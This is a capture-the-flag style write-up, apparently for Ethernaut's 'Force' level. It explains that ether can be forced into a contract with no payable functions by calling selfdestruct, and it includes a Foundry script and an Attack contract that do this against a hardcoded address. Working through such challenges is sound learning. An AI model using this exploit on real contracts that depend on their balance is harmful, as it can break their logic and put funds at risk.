 1. We need to make the balance of the Force contract more than 0.

- Solution

1. There is no `receive()/fallback()` function and no payable functions in the Force contract.
2. If we send any ether to this contract it will be reverted.
3. There are more ways to receive ether not just `receive()/fallback()`.
4. Ether can be received via coinbase transaction, i.e a mining reward.
5. Also when someone called selfdestruct on any contract and mentioned our address in the recepient of the ether after selftdestruct.
6. So, we can deploy a contract with some ether and implement a selfdestruct function and pass the recepient as the `Force` contract address.
7. Upon selfdestruct of the Attack contract it Force contract will receive ether.

`ForceSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Force} from "../src/Force.sol";

contract ForceSolve is Script {
    Force public force = Force(0xef1ec80b578969a99B840745178d655f3594Db99);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("balance of Force : ", address(force).balance);
        new Attack{value: 100 wei}().exploit(payable(address(force)));
        console.log("balance of Force : ", address(force).balance);
        vm.stopBroadcast();
    }
}

contract Attack{
    address public owner;
    constructor() payable {
        owner = msg.sender;
    }
    function exploit(address payable _fundReceiver) public {
        require(msg.sender == owner);
        selfdestruct(_fundReceiver);
    }

}
```

To run script : 

```bash
$ source .env
$ forge script script/ForceSolve.s.sol:ForceSolve --rpc-url $RPC_URL --broadcast
```
